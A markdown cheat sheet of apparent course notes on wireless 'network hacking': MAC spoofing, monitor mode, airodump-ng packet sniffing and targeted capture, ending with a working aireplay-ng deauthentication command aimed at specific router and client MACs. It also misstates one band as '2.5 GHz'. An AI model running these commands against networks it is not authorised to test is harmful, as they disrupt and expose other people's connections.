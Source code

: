 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---
